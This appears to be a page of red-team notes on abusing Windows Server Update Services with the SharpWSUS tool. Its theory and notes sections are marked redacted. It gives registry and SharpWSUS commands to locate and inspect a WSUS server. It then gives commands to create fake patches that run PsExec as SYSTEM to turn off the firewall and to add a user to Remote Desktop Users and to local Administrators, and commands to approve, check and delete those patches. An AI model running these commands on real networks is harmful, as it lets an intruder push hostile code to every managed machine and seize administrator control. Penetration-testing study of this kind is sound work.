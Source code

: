# WSUS

[Windows Server Update Services (WSUS)](https://learn.microsoft.com/en-us/windows-server/administration/windows-server-update-services/get-started/windows-server-update-services-wsus) is a Microsoft service that allows administrators to distribute updates and patches for Microsoft products throughout an environment in a scalable way.

THEORY REDACTED
## Enumeration (local only)

https://github.com/nettitude/SharpWSUS

```powershell
# Identify if WSUS is configured and where the management server is
reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
.\SharpWSUS.exe locate

# Reveal information about connected computers on management server (powershell must be executed as administrator)
.\SharpWSUS.exe inspect
```

## Exploitation (local only)

```powershell
# Create a malicious patch
.\SharpWSUS.exe create /payload:"C:\ProgramData\System\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c netsh advfirewall set allprofiles state off" /title:"DisableFirewall"
.\SharpWSUS.exe create /payload:"C:\ProgramData\System\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup 'Remote Desktop Users' $USER /add" /title:"AddRDPUser"
.\SharpWSUS.exe create /payload:"C:\ProgramData\System\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators $USER /add" /title:"AddAdmin"

# Approve the malicious patch for deployment
.\SharpWSUS.exe approve /updateid:$UPDATE_ID /computername:$FQDN /groupname:"$GROUP_NAME"

# Confirm group creation
.\SharpWSUS.exe inspect

# Validate client downloads
.\SharpWSUS.exe check /updateid:$UPDATE_ID /computername:$FQDN

# Cleanup
.\SharpWSUS.exe delete /updateid:$UPDATE_ID /computername:$FQDN
```

REDACTED NOTES
